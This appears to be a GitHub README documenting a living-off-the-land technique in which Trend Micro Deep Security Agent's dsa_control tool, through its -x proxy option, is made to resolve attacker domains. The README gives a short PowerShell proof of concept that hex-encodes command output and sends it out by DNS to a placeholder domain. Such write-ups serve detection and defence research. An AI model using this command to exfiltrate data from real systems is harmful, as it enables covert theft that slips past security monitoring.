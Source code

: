 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool

An interesting way of using the `dsa_control` CLI tool, included in `Trend Micro's Deep Security Agent (DSA)` solution, specifically its `-x` proxy feature, is that an actor can "abuse" it to make the tool resolve a given domain with out breaking the existing DSA configuration. This could allow data to be exfiltrated using a legitimate tool.

⚠️NOTE: Using the `-x` proxy option may interrupt communication between the specific agent and Trend Cloud One.

Requirements:
- Administrative privileges
- Trend Micro Deep Security Agent Installed


## Trend Micro Configuration
![alt text](assets/3.png)


## POC
```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$cmd.<domain>:443/"
```

## Example
![alt text](assets/2.PNG)

![alt text](assets/1.png)

